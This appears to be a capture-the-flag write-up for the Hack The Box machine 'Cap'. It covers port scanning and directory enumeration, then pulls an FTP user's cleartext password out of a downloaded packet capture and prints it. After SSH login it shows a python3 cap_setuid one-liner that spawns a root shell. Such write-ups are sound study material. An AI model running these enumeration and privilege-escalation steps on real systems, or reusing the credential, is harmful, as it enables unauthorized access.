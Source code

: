 # cap ,HTB 28 JUL 2021 
#ip:10.10.10.245

![70ea3357a2d090af11a0953ec8717e90](https://user-images.githubusercontent.com/67979878/127354448-dbdd2b99-0c74-4082-bcbf-39dd70fff100.png)

SCANNING
========
intial
------
$nmap -sV -v  -oN nmap/intial 10.10.10.245         

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn

```                          
### the full scan return same results .

searching for exploits for services running :

[*] non found to get rce .

searching for exploits for technologies used on the web page "bootstrap 4.0.0 , jquery 2.2.4 and others"

[*]non found to get rce .                          

-you can know technologies used via wappalayzer .


ENUMRATION
===========

$ftp 10.10.10.245 

[*]failed to log in as anonymous :(

$ gobuster dir -u "http://10.10.10.245/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee gobuster.txt

```
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17465]                         
/netstat              (Status: 200) [Size: 32611]                         
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/9]

```
### not much as these files is the tabs on the page :) .
How ever , 

/data is interesting . when i hit it by go-buster it has /9 , when i visit it i got /11

it seems there are a lot of pcap files in this /data , So starting from zero :) , download this file 


## WIRESHARK 

open this file with wireshark 

follow tcp stream on any packet 

```
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.

````

as we see it seems a user from the machine ip sent his credits unencrypted .

now we have credits !
=========================

USER nathan

PASS Buck3tH4TF0RM3!

[*]port 22 is open as we get from the nmap :) 

$ssh nathan@10.10.10.245 


==================WE ARE IN=====================


### now we can go ahead and read /home/nathan/user.txt 

PRIVILEGE ESCALATION
====================

$sudo -l 

X no sudo for nathan :( 

some checks :
-----------

#we can't write to /etc/passwd

#we can't read /etc/shadow 



searching for suid  :)
----------------------
$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null


got alots of binaries but they are default or not interesting for https://gtfobins.github.io/


searching for kernel exploits 
------------------------------
$uname -ao

Linux cap 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux                

[*] no privilege escalation via kernel exploit  :( .


searching for capabilites 
------------------------
nathan@cap:/$ getcap -r / 2>/dev/null
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```


python ?


from : https://gtfobins.github.io/gtfobins/python/#capabilities


$python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'


#pwned .
